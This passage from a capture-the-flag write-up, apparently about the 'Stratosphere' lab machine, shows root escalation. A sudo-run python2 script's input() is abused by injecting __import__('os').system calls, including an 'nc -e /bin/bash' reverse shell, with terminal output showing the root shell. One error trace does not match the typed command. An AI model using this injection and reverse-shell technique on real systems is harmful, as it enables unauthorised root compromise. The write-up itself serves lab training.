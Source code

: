 
It is unusual to see python mapped to python3 by default. Let’s think about
functions that are different in python2 and python3, like `input`. This script
intends to be called with python3, both in the #! and in the default mapping.
And it makes use of `input` to get user input. But in python2, `input` is
equivalent to `eval(raw_input(prompt))`
([ref](https://docs.python.org/2/library/functions.html#input)). So the user
can pass something into this function that will be passed to `eval`.

[This article](https://vipulchaskar.blogspot.com/2012/10/exploiting-eval-
function-in-python.html) on eval exploitation shows how an attacker can import
modules and call them inside eval. To test it on stratosphere:

    
    
    richard@stratosphere:~$ ls /dev/shm
    output.17370
    
    richard@stratosphere:~$ sudo python2 ~/test.py
    Solve: 5af003e100c80923ec04d65933d382cb
    __import__("os").system("touch /dev/shm/0xdf")
    Traceback (most recent call last):
      File "/home/richard/test.py", line 38, in <module>
        question()
      File "/home/richard/test.py", line 8, in question
        md5.update(q1.encode())
    AttributeError: 'int' object has no attribute 'encode'
    
    richard@stratosphere:~$ ls /dev/shm
    0xdf  output.17370
    

Now get a shell:

    
    
    richard@stratosphere:~$ sudo python2 ~/test.py
    Solve: 5af003e100c80923ec04d65933d382cb
    __import__("os").system("nc -e /bin/bash 127.0.0.1 12311")
      File "<string>", line 1
        import pty.pty.spawn("bash")
                            ^
    SyntaxError: invalid syntax
    
    
    
    
    richard@stratosphere:~$ nc -lnvp  12311
    listening on [any] 12311 ...
    connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 42910
    id
    uid=0(root) gid=0(root) groups=0(root)
    python -c 'import pty;pty.spawn("bash")'
    root@stratosphere:/home/richard#
    

### root.txt

With a root shell, grabbing the flag is easy:

    
    
    root@stratosphere:~# pwd
    /root
    
    root@stratosphere:~# wc -c root.txt
    33 root.txt
    
    root@stratosphere:~# cat root.txt
    d41d8cd9...
    

[](/2018/09/01/htb-stratosphere.html)

